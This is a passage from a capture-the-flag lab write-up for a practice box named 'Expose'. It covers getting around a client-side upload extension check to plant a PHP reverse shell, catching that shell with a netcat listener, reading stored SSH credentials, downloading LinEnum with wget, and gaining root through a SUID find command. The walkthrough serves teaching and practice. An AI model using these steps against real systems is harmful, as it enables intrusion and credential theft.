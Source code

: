 ```javascript
      console.log('File uploaded successfully');
	  return true;
    } else {
      // Invalid file extension, display an error message or take appropriate action
      console.log('Only JPG and PNG files are allowed');
	  return false;
    }
  }
}
```
This effectively means that the only validation it is looking for is the file to end in .png or .jpg which is great for us because that means we can upload a non png or jpg file but rename it to end in either jpg or png and before the file makes it to the backend we can rename it back to end in whatever filetype we would like. Since the task points us in the direction of using a php reverse shell we can generate one with the reverse shell generator. Selecting the php PentestMonkey script we can store that in a file named shell.png and upload it to the server.

Next we need to intercept the request to upload the file. So make sure burp suite is open and intercepting requests from your browser. After uploading the file and selecting upload you need to change filename from 'shell.png' to 'shell.php' this will make it so the server on the backend will interpret the file as a php file instead of a png. ![[imgs-attatch/Pasted image 20241126160940.png]]

The response lets you know that the file is successfully uploaded and where to reach the file.
![[imgs-attatch/Pasted image 20241126144215.png]]
Going to the directory the file that have been uploaded can be seen here.
![[imgs-attatch/Pasted image 20241126161911.png]]
Before clicking on the file make sure to run the listener on your attack box `nc -lnvp 9001`
![[imgs-attatch/Pasted image 20241126162412.png]]![[imgs-attatch/Pasted image 20241126162556.png]]
Since are the user www-data it makes sense on why we cannot read the flag.txt file but we can however read ssh_creds.txt which is where we get the ssh credentials for zeamkish
![[imgs-attatch/Pasted image 20241126162813.png]]
Once we ssh in we are able to read the flag.txt file.
![[imgs-attatch/Pasted image 20241126163015.png]]
`Flag: THM{USER_FLAG_1231_EXPOSE}`

#### Escalating privileges
Now that we have access to the machine it is time to escalate our privileges. What I like to look for first is if there is any SUID files. You can do this multiple ways but in order to be the most verbose about attack vectors I will be using LinEnum. From my attack machine I start a python http server to host the LinEnum.sh script. then from the Expose box I can use wget to retrieve the file from my attack box `wget 10.10.186.180:8000/LinEnum.sh`. In order for the file to be ran it needs to have execute permission `chmod +x LinEnum.sh` Once it has permission to execute running the command ``./LinEnum.sh`` will give a lot of output but some pertinet information for us is the SUID files.  ![[imgs-attatch/Pasted image 20241126170132.png]] 
seeing that the find command is apart of the SUID files we can checkout [GTFOBins](https://gtfobins.github.io/gtfobins/find/) this gives us the command `find . -exec /bin/sh -p \; -quit` Once executed we get a shell as root and from there we can find the flag located in the root folder.
![[imgs-attatch/Pasted image 20241126170507.png]]